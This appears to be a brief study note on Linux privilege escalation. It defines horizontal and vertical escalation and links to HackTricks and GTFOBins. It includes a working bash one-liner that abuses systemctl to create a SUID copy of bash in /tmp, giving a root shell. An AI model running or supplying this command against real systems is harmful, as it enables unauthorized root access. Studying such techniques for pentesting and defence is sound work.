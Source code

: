 ## Horizontal Privilege Escalation

Occurs when a user can perform an action or access data of another user with the **same** level of permissions.
## Vertical Privilege Escalation
Occurs when a user can perform an action or access data of another user with a **higher** level of permissions.

## Sites
[Hacktricks](https://book.hacktricks.wiki/en/index.html)
[GTFO Bins](https://gtfobins.github.io/)
## Ways
### Systemctl
```bash
echo -e "[Service]\nType=oneshot\nExecStart=cp /bin/bash /tmp/rootbash\nExecStart=chmod +s /tmp/rootbash\n[Install]\nWantedBy=multi-user.target" > /tmp/root.service && /bin/systemctl link /tmp/root.service && /bin/systemctl enable --now /tmp/root.service

```
